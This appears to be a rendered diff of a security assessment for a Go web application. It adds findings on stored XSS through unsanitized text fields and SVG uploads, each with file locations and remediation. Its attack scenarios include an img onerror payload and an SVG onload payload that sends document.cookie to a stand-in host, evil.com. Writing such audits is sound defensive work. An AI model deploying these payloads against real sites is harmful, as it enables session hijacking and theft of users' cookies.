

Before and after one commit to rom/tidslinjal, a Markdown page: SECURITY_ASSESSMENT_V2.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/SECURITY_ASSESSMENT_V2.md
+++ b/SECURITY_ASSESSMENT_V2.md
@@ -87,7 +87,42 @@ The update handler checks `existing.CreatedBy != user.ID && !hasRole(user.Role,
 
 ---
 
-### H-05: Sessions Not Invalidated After Self-Service Password Change
+### H-05: Stored XSS via Multiple Unsanitized Fields
+
+**Location**:
+- `main.go:3402-3423` — Event log entries: `Message`, `Summary`, `Source`, `Data` — **no `stripHTMLTags`**
+- `main.go:2825-2857` — Group name/description — **no sanitization**
+- `main.go:9561-9581` — Room name/description — **no sanitization**
+- `main.go:9365-9387` — Map location name — **no sanitization**
+- `main.go:1342-1345` — User display name at registration — **no sanitization**
+- `main.go:3230-3237` — User display name at admin creation/update — **no sanitization**
+
+**Severity**: **HIGH**
+
+While event titles/descriptions are sanitized with `stripHTMLTags()`, many other user-supplied text fields bypass sanitization entirely. Display names appear throughout the app (comments, audit logs, presence indicators). Group names appear in layer UIs and dropdown selectors.
+
+**Attack scenario**: A user self-registers with `display_name` set to `<img src=x onerror=alert(document.cookie)>`. Every time their name renders in another user's browser (comments, audit trail, event created-by), the XSS fires and steals session cookies. Alternatively, a TeamLead creates a group with a script tag in the name.
+
+**Remediation**: Apply `stripHTMLTags()` to all user-supplied text fields at every write handler: event log entries, group name/description, room name/description, map location name, user display name, template name/description.
+
+---
+
+### H-06: Stored XSS via SVG Upload as Map Resource
+
+**Location**: `main.go:12407` (allowed extensions include `.svg`), `main.go:12489-12504` and `main.go:14222-14231` (served via `http.ServeFile`)
+**Severity**: **HIGH**
+
+Map resource uploads explicitly allow `.svg` files. SVG files can contain embedded JavaScript (`<script>`, `onload`, etc.). Files are served via `http.ServeFile` with the original content type (`image/svg+xml`). When the browser renders the SVG directly (navigating to the file URL), JavaScript executes in the application's origin.
+
+The `handleMapResourceFile` endpoint may not require authentication and does not set `Content-Disposition: attachment`.
+
+**Attack scenario**: A TeamLead uploads an SVG containing `<svg onload="fetch('https://evil.com/'+document.cookie)">`. Any user navigating to `/api/map-resources/{id}/file` executes the script, leaking cookies.
+
+**Remediation**: Either (a) remove `.svg` from allowed extensions, (b) set `Content-Disposition: attachment` on all served files, (c) serve from a separate origin, or (d) sanitize SVG content on upload. Also ensure authentication is required.
+
+---
+
+### H-07: Sessions Not Invalidated After Self-Service Password Change
 
 **Location**: `main.go:1130-1189` (`handleChangePassword`)
 **Severity**: **HIGH**
```
Also changed, not shown: other parts of SECURITY_ASSESSMENT_V2.md (+34 -8 lines).
